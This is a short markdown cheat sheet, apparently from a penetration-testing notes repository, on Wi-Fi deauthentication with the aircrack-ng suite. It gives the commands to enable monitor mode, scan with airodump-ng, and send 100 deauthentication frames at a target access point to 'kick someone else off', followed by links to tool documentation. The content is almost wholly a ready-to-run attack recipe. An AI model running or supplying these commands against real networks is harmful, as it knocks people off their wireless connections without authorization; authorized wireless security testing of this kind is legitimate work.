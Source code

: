 # 02 - Deauthentication

## Aircrack-ng Suite

```
# airmon-ng start wlan0
```

Run airodump

```
# airodump-ng -i mon0
```

Kick someone else off

```
# aireplay-ng -0 100 -a <bssid> mon0
```

---
## References

### Aircrack-ng

- [Aircrack-ng: Deauthentication](https://aircrack-ng.org/doku.php?id=deauthentication)

### Penetration Testing Tools

- [Penetration Testing Tools: Aireplay-ng](https://en.kali.tools/?p=79)